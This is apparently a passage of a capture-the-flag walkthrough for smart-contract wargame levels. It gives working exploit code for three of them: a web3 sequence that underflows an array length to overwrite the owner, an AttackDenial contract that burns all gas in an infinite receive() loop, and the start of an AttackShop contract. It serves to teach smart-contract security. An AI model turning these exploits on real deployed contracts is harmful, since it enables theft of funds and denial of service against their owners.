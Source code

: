 ```
    type: 'function',
    inputs: []
}, []); // 0x47f57b32

// Call retract as many times as you need such that the integer underflows
await web3.eth.sendTransaction({to: instance, from: player, data: retractPayload});

// You can check the size of the array by doing
await web3.eth.getStorageAt(instance, 1);

// Once it returns "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff", you know that you're ready to replace the owner
await web3.eth.sendTransaction({to: instance, from: player, data: replaceIndexZeroPayload});

// Check that owner has been replaced successfully
await web3.eth.call({to: instance, data: ownerPayload})
```

## 20. Denial
This level is very similar to the levels Force and King. The problem with the Denial contract is the fact that instead of transferring using `.send()` or `.transfer`() which has a limit of 2300 gas, it used `.call()` and if no limit on the gas is specified, it will send all gas along with it. I used `assert(false)` in my old solution and it used to work but no longer works due to a [breaking change](https://blog.soliditylang.org/2020/12/16/solidity-v0.8.0-release-announcement/) in solidity v0.8.0 so we need another way to expand all available gas. The simplest way to do this is to run an infinite loop.
```
pragma solidity ^0.8.0;

contract AttackDenial {
    receive() external payable {
        while(true){}
    }
}

await contract.setWithdrawPartner("<address of your deployed AttackDenial contract.>");
```

## 21. Shop
This level is very similar to that of Elevator where you return different value everytime you call the function. Since `isSold` is updated first before the price is set, we are able to take advantage of this and return different values for `_buyer.price()` based on what the value of `shop.isSold()` returns. You might have to manually increase the gas limit on metamask. This is a common issue because metamask cannot estimate the gas cost when you using `.call`.

```
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract AttackShop is Buyer {
    address public victim;

    constructor(address _victim) {
        victim = _victim;
    }

    function buy() public {
        bytes memory payload = abi.encodeWithSignature("buy()");
        victim.call(payload);
    }
```